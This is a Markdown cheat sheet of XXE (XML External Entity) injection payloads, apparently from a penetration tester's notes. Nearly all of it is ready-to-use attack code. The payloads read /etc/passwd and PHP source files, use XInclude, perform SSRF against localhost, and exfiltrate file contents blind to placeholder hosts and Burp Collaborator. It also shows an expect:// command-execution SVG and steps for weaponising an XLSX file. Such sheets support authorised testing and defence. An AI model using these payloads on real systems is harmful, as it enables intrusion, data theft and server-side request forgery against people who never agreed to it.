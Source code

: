 # XML External Entity \(XXE\)

## Exploiting XXE to retrieve files

### Classic XXE

Display content of `/etc/passwd.`

```bash
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

Base64 string == `file://etc/passwd`

```bash
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" >
]>
<foo>&xxe;</foo>
```

### Xinclude attack

```bash
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```bash
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://YOURBURCOLLABORATOR.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to `www.web.com` \(you may receive only the first line\).

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.web.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

## XXE in weird files

### XXE inside SVG

```bash
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

### XXE inside SOAP

```bash
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside XLSX file

Extract the excel file.

```bash
$ mkdir XXE && cd XXE
$ unzip ../XXE.xlsx
Archive:  ../XXE.xlsx
  inflating: xl/drawings/drawing1.xml
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/sharedStrings.xml
  inflating: xl/styles.xml
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: _rels/.rels
  inflating: [Content_Types].xml
```

Add your blind XXE payload inside `xl/workbook.xml`.

```bash
<xml...>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<x>&xxe;</x>
<workbook...>
```

Alternativly, add your payload in `xl/sharedStrings.xml`:

```bash
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&xxe;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

Rebuild the Excel file.

```text
$ zip -r ../poc.xlsx *
updating: [Content_Types].xml (deflated 71%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 60%)
updating: docProps/ (stored 0%)
updating: docProps/app.xml (deflated 51%)
updating: docProps/core.xml (deflated 50%)
updating: xl/ (stored 0%)
updating: xl/workbook.xml (deflated 56%)
updating: xl/worksheets/ (stored 0%)
updating: xl/worksheets/sheet1.xml (deflated 53%)
updating: xl/styles.xml (deflated 60%)
updating: xl/theme/ (stored 0%)
updating: xl/theme/theme1.xml (deflated 80%)
updating: xl/_rels/ (stored 0%)
updating: xl/_rels/workbook.xml.rels (deflated 66%)
updating: xl/sharedStrings.xml (deflated 17%)
```

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection\#exploiting-xxe-to-retrieve-files" %}



